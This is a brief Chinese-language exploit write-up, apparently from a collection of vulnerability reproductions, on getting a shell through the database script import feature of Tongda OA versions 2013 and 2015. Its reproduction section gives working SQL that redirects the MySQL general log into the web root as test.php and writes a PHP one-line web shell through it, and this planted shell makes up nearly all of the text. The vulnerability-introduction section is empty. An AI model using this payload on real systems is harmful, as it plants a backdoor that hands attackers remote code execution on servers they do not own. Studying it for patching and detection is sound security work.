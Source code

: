 ```yaml
---
title: "通达oa 数据库脚本导⼊getshell"
id: zhfly3340
---
```


# 通达oa 数据库脚本导⼊getshell

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

⾥面的database⻚面可以导入sql脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql日志的方式进行 突破。

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off; 
```